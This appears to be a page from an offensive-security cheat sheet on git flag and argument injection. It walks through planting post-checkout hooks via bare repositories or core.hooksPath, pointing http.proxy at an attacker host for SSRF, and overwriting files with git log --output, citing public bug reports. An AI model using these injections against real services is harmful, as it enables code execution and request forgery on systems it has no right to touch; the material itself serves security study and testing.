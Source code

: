 # git

## Abusing bare repositories

You can use bare repositories to deliver custom git hooks and execute arbitrary code. For instance, if the vulnerable code executes the following bash commands:

```bash
$ git clone -- "<REPO>" "target_directory"
$ cd "target_directory"
$ git checkout "subproject"
```

You can create a repo with the `subproject` folder, which is a bare repository with a payload in the post checkout hook:

```bash
$ git clone "<REPO>" target_directory
$ cd target_directory
$ mkdir subproject
$ cd subproject
$ git init --bare
$ echo "#!/bin/sh" > hooks/post-checkout
$ echo "echo 'arbitrary code here'" >> hooks/post-checkout
$ # commit and push
```

References:
- [Writeup: 4 Google Cloud Shell bugs explained – bug #3](https://offensi.com/2019/12/16/4-google-cloud-shell-bugs-explained-bug-3/)
- [githooks docs](https://git-scm.com/docs/githooks)

## git-clone

{% embed url="https://git-scm.com/docs/git-clone" %}

### --config

Set a configuration variable in the newly-created repository; this takes effect immediately after the repository is initialized, but before the remote history is fetched or any files checked out.

#### core.hooksPath

`core.hooksPath` sets different path to hooks. You can create the post checkout hook within a repository, set the path to hooks with the `hooksPath`, and execute arbitrary code.

```bash
$ git clone "<REPO>" target_directory
$ cd target_directory
$ mkdir hooks
$ echo "#!/bin/sh" > hooks/post-checkout
$ echo "echo 'arbitrary code here'" >> hooks/post-checkout
$ # commit and push
```

To execute the payload, run the git-clone:

```bash
$ git clone -c core.hooksPath=hooks "<REPO>"
```

References:
- [git-config docs: core.hooksPath](https://git-scm.com/docs/git-config#Documentation/git-config.txt-corehooksPath)
- [githooks docs](https://git-scm.com/docs/githooks)

#### http.proxy and http.&lt;URL&gt;.proxy

`http.proxy` or `http.<URL>.proxy` override the HTTP proxy. You can use this to get SSRF:

```bash
$ git clone -c http.proxy=http://attacker-website.com -- "<REPO>" target_directory
$ git clone -c http.http://website.com/.proxy=http://attacker-website.com -- "<REPO>" target_directory
```

Pay attention to other `http.*` configs and `remote.<name>.proxy`, they can help to increase the impact.

References:
- [Report: Injection of `http.<url>.*` git config settings leading to SSRF](https://hackerone.com/reports/855276)
- [git-config docs: http.proxy](https://git-scm.com/docs/git-config#Documentation/git-config.txt-httpproxy)
- [git-config docs: remote.<name>.proxy](https://git-scm.com/docs/git-config#Documentation/git-config.txt-remoteltnamegtproxy)

### &lt;directory&gt;

git-clone allows you to specify a new directory to clone into. Cloning into an existing directory is only allowed if the directory is empty. You can use this to write a repo outside a default folder.

```bash
$ git clone -- "<REPO>" target_directory
```

## git-log

{% embed url="https://git-scm.com/docs/git-log" %}

### --output

`output` definea a specific file to output instead of stdout. You can use this to rewrite arbitrary files.

```bash
$ git log --output=/tmp/arbitrary_file
$ cat /tmp/arbitrary_file
commit c79538fb19b1d9d21bf26e9ad30fdeb90be1eaf0
Author: User <user@local>
Date:   Fri Aug 29 00:00:00 2021 +0000

    Controlled content
```

References:
- [Report: Git flag injection - local file overwrite to remote code execution](https://hackerone.com/reports/658013)
- [Report: Git flag injection leading to file overwrite and potential remote code execution](https://hackerone.com/reports/653125)

## git-grep

{% embed url="https://git-scm.com/docs/git-grep" %}

### --no-index

`no-index` tells the git-grep to search files in the current directory that is not managed by Git. In other words, if a working directory is different from a repository one `no-index` allows you to get access to files in the working directiory.

References:
- [Report: Git flag injection - Search API with scope 'blobs'](https://hackerone.com/reports/682442)
